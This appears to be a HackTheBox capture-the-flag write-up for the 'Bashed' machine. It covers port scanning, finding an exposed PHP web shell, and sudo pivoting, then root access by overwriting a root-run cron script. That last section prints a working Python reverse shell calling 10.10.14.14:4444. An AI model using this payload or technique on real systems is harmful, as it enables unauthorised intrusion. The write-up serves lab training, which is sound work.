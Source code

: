 ```yaml
---
aliases: ["Bashed","bashed"]
title: "Bashed"
description: "Writeup for Bashed machine from HTB"
date: 2020-09-04
lastmod: 2020-09-04
author: "Pablo Jesús González Rubio"
cover: "bashed.png"
coverAlt: "Bashed icon"
toc: true
tags: [ "Writeup" ]
---
```


> `fast-nmap` and `gobusterdefault` are aliases from [this gist](https://gist.github.com/n0nuser/34fc14a084436ae89c2b3405ad453f0a).

## Scanning

I've put the machine IP in `/etc/hosts` for easy access:

```
10.10.10.68 bashed.htb
```

Then I've run my alias for Nmap:

```
fast-nmap bashed.htb
```

Output:

```
[*] Full TCP Scan
Open ports: 80
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

## Enumeration

The HTTP port is open so there's a web server:

{{< img "page.png" "Page" "border" >}}

The page tells us about a pentesting tool that could come in handy, searching for it this [repository](https://github.com/Arrexel/phpbash) appears.

> Curious Fact: Arrexel is the CEO of HackTheBox and creates machines like this one. Just to correlate the repository with the machine. 😁

At this time gobuster (`gobusterdefault bashed.htb`) scan is more or less done and throws:

```
/contact.html (Status: 200)
/images/ (Status: 200)
/icons/ (Status: 403)
/index.html (Status: 200)
/uploads/ (Status: 200)
/about.html (Status: 200)
/php/ (Status: 200)
/css/ (Status: 200)
/dev/ (Status: 200)
/js/ (Status: 200)
/config.php (Status: 200)
/fonts/ (Status: 200)
/single.html (Status: 200)
/scroll.html (Status: 200)
```

Let's check if that PHP backdoor exists in any of the directories we've found.

As he says he has developed it in this exact server and there's a "dev" directory maybe we can find it there:

{{< img "dev.png" "Dev" "border" >}}

¡Boom!

Let's throw some reverse shell and the usual TTY method:

{{< img "reverse.png" "Reverse" "border" >}}

After that, I went to **Arrexel**'s user directory `/home/Arrexel` where there's the `user.txt` with world read access.

{{< img "user.png" "User" "border" >}}

At this moment I tried to privesc to another user so I checked what commands I could run with `sudo`:

{{< img "sudo.png" "Sudo" "border" >}}

This means we execute commands as **scriptmanager** user without any password asked. For example:

```
sudo -u scriptmanager whoami
```

That returns `scriptmanager`.

Looking around the directories I notice `/scripts` at the root directory, where usually there are only OS directories like the `etc`, `dev`, `var`, etc.

We can't enter (but read) as **www-data** because it's owned by **scriptmanager**:

{{< img "scripts.png" "Scripts" "border" >}}

So I just "sudo" as **scriptmanager** to be able to fully interact with the directory and not just read it:

{{< img "listScripts.png" "List Scripts" "border" >}}

{{< img "read.png" "Read" "border" >}}

That Python script just overwrites `test.txt`. Looking closely the `test.txt` is owned by **root** and not by **scriptmanager**, so that means the script is being run as root, probably in a cronjob.

## Privilege Escalation (Root)

To escalate this we can modify the `test.py` as **scriptmanager** inputting a reverse shell that will grant us full access:

```
sudo -u scriptmanager nano /scripts/test.py
```

And this reverse shell:

```python
import socket,subprocess,os
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.14",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

Now we just have to wait with netcat:

{{< img "root.png" "Root!" "border" >}}

Rooted! 🔓️